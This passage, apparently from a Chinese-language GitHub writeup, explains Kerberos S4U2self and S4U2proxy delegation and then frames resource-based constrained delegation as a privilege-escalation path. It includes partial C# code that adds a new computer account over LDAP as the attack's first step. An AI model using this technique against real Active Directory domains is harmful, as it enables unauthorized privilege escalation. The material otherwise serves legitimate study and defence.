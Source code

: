 S4U2self 的描述如上图上半部分所示。 使用此扩展，服务会收到服务本身的服务票证（该票证不能在其他地方使用）。上图描述了以下协议步骤：

1. 用户机器向 Service 1 发出请求，用户通过了认证，但 Service 1 没有用户的授权数据。通常，这是由于身份验证是通过 Kerberos 之外的某些方式执行的。
2. Service 1 已通过 KDC 进行身份验证并获得其自身的 TGT，它通过 S4U2self 扩展代表指定用户向其自身请求服务票证。用户由 S4U2self 数据中的用户名和用户领域名来标识。或者，如果 Service 1 拥有用户的证书，则它可以使用该证书通过 `PA-S4U-X509-USER` 结构向 KDC 识别用户。
3. KDC 返回一个寻址到 Service 1 的服务票据，就像用户使用用户自己的 TGT 请求的一样。服务票证可能包含用户的授权数据。
4. Service 1 可以使用服务票据中的授权数据来满足用户的请求。然后该服务响应用户。尽管 S4U2self 向 Service 1 提供有关用户的信息，但此扩展不允许 Service 1 代表用户向其他服务发出请求。这就到了 S4U2proxy 发挥作用的时间了。S4U2proxy 的描述如上图下半部分所示。
5. 用户机器向 Service 1 发出请求，Service 1 需要以用户身份访问 Service 2 上的资源。 但是， Service 1 没有来自用户转发来的 TGT（forwarded-TGT）以通过转发 TGT 执行委派。此步骤适用两个先决条件。首先，Service 1 已通过 KDC 进行身份验证并拥有有效的 TGT。其次，服务 1 具有从用户到 Service 1 的可转发服务票证。此可转发服务票证可能已通过 KRB_AP_REQ 消息或通过 S4U2self 请求获取。
6. Service 1 代表指定用户向服务 2 请求服务票证。通过 Service 1 的服务票证中的客户端名称和客户端领域进行标识用户。要返回的票证中的授权数据也从服务票证中复制。
7. 如果请求中包含特权属性证书（PAC），则 KDC 通过检查 PAC 结构的签名数据来验证 PAC。如果 PAC 有效或不存在，KDC 将返回 Service 2 的服务票证，但存储在服务票证的 cname 和 crealm 字段中的客户端身份是用户的身份，而不是 Service 1 的身份。
8. Service 1 使用服务票证向 Service 2 发出请求。Service 2 将此请求视为来自用户，并假设该用户已通过 KDC 进行身份验证。
9. Service 2 响应请求。
10. Service 1  响应消息 5 中的用户请求。

在 RBCD 中，需要在 Service 2 上将 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性值设为 Service 1 的 SID，以允许 Service 1 对 Service 2 上的服务进行委派。由于计算机帐户对自身的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性有 WriteProperty 权限，因此可以通过设置该属性执行 RBCD 提权。

我们首先需要以计算机账户的身份连接到 LDAP，并创建一个新的计算机对象，可以借助 Windows .NET API 提供的 `System.DirectoryServices.Protocols.LdapConnection` 和 `System.DirectoryServices.Protocols.AddRequest ` 接口完成该操作。

```c#
// ...

LdapDirectoryIdentifier identifier = new LdapDirectoryIdentifier(domainController, port);
LdapConnection connection = new LdapConnection(identifier);

// ...

AddRequest addRequest = new AddRequest(NewComputersDN, new DirectoryAttribute[] {
    new DirectoryAttribute("DnsHostName", computerName + "." + domain),
    new DirectoryAttribute("SamAccountName", computerName + "$"),
    new DirectoryAttribute("userAccountControl", "4096"),
    new DirectoryAttribute("unicodePwd", Encoding.Unicode.GetBytes("\"" + computerPassword + "\"")),
    new DirectoryAttribute("objectClass", "Computer"),
    new DirectoryAttribute("ServicePrincipalName", "HOST/" + computerName + "." + domain, "RestrictedKrbHost/" + computerName + "." + domain, "HOST/" + computerName, "RestrictedKrbHost/" + computerName)
});

try
{
    connection.SendRequest(addRequest);
    Console.WriteLine($"[*] Computer account {computerName}$ added with password {computerPassword}.");
}
catch (Exception ex)
{
    // ...
}
```
